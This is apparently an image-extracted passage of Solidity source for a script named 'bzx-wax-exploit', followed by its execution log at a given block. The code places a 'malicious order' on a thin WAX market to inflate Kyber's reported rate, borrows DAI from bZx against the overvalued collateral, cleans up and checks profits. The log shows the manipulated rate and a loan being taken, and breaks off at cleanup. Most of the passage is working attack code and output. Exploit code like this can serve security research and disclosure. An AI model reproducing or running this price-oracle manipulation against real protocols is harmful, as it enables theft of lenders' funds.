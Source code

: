         function checkRates() external {
            (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(WAX, KYBER_ETH, rateCheckAmount);
            printf("checking rates tokens=%.8u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
        }
        
        uint constant waxBidAmount = 1e8;
        uint constant ethOfferAmount = 10 ether;
        uint32 private orderId;
        function makeOrder() external {
            orderId = WAX_ORDER_BOOK.ethToTokenList().nextFreeId();
            
            uint kncRequired = WAX_ORDER_BOOK.calcKncStake(ethOfferAmount);
            printf("making malicious order kncRequired=%.u\n", abi.encode(KNC.decimals(), kncRequired));
            
            KNC.getFromUniswap(kncRequired);
            WAX.getFromBancor(1 ether);
            
            WAX.approve(address(WAX_ORDER_BOOK), waxBidAmount);
            KNC.approve(address(WAX_ORDER_BOOK), kncRequired);
            
            WAX_ORDER_BOOK.depositEther.value(ethOfferAmount)(address(this));
            WAX_ORDER_BOOK.depositToken(address(this), waxBidAmount);
            WAX_ORDER_BOOK.depositKncForFee(address(this), kncRequired);
            require(WAX_ORDER_BOOK.submitEthToTokenOrder(uint128(ethOfferAmount), uint128(waxBidAmount)));
        }
        
        function borrow() external {
            bytes32 hash = doBorrow(BZX_DAI, false, BZX_DAI.marketLiquidity(), DAI, WAX);
            printf("borrowing loanHash=%32x\n", abi.encode(hash));
        }
        
        function cleanup() external {
            require(WAX_ORDER_BOOK.cancelEthToTokenOrder(orderId));
            WAX_ORDER_BOOK.withdrawEther(WAX_ORDER_BOOK.makerFunds(address(this), KYBER_ETH));
            WAX_ORDER_BOOK.withdrawToken(WAX_ORDER_BOOK.makerFunds(address(this), WAX));
            WAX_ORDER_BOOK.withdrawKncFee(WAX_ORDER_BOOK.makerKnc(address(this)));
            DAI.giveAllToUniswap();
            KNC.giveAllToUniswap();
            WAX.giveAllToBancor();
            WETH.withdrawAll();
        }
        
        function checkProfits() external {
            printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
        }
        
        function borrowInterest(uint amount) internal {
            DAI.getFromUniswap(amount);
        }
    }
    
    /*
    ### running script "bzx-wax-exploit" at block 8455720
    #### executing step: exploit
    ##### calling: checkRates()
    checking rates tokens=1.00000000 rate=0.000000000000000000 slippage=0.000000000000000000
    ##### calling: makeOrder()
    making malicious order kncRequired=127.438017578344399080
    ##### calling: checkRates()
    checking rates tokens=1.00000000 rate=10.000000000000000000 slippage=9.700000000000000000
    ##### calling: borrow()
    collateral_required=232.02826470, interest_required=19750.481385867262370788
    borrowing loanHash=0x2cca5c037a25b47338027b9d1bed55d6bc131b3d1096925538f611240d143c64
    ##### calling: cleanup()
